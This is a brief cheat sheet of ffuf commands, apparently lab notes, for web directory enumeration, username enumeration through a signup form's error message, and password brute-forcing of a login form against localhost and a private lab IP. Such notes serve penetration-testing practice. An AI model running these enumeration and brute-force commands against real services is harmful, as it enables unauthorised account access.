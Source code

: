 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# fuff
<hr/>

## Enumerate URLs with Ffuf
```sh
ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
```

## username enumeration
http://10.10.13.16/customers/signup

```sh
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/signup -mr "username already exists"
```

## brute force
http://10.10.13.16/customers/login

```sh
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/login -fc 200
```